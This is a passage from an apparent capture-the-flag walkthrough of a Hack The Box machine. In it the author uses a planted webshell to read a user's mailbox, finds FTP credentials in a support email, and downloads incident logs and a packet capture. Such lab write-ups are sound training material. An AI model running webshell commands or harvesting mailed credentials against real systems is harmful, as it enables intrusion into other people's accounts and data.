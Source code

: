 The credentials work on the FTP service, but that shows the same content that can be seen with the webshell.
As the Nmap scan shows, there is a SMTP mail server running on this box, so lets see if there are mails:
```
GET /shell.php?hidden=cat+/var/mail/ib01c03
```
```
From support@ib01.supersechosting.htb Mon Dec 10 21:10:56 2018
(...)
To: <ib01c03@ib01.supersechosting.htb>
Subject: Re: Please help! Site Defaced!
(...)

>> Please we need your help. Our site has been defaced!
>> What we should do now?
>>
>> rentahacker.htb

Hi, we will check when possible. We are working on another incident right now. We just make a backup of the apache logs.
Please check if there is any strange file in your web root and upload it to the ftp server:
ftp.supersechosting.htb
user: ib01ftp
pass: YhgRt56_Ta

Thanks.
```

The hosting provider sent credentials for the FTP service on _ftp.supersechosting.htb_.

## Checking FTP (Port 21)

Login into the FTP service:
```
ftp ftp.supersechosting.htb
```
```
ftp> pwd
257 "/home/ib01ftp/incidents/ib01c01" is the current directory

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--rw-r--    1 1005     1000        10427 Dec 10  2018 ib01c01.access.log
-rw-r--r--    1 1000     1000       835084 Dec 10  2018 ib01c01_incident.pcap
-r--rw-r--    1 1005     1000          173 Dec 11  2018 notes.txt
```

In the directory _/home/ib01ftp/incidents/ib01c01_ are three files that I will download and analyze on my local client.
```
ftp> mget *
```
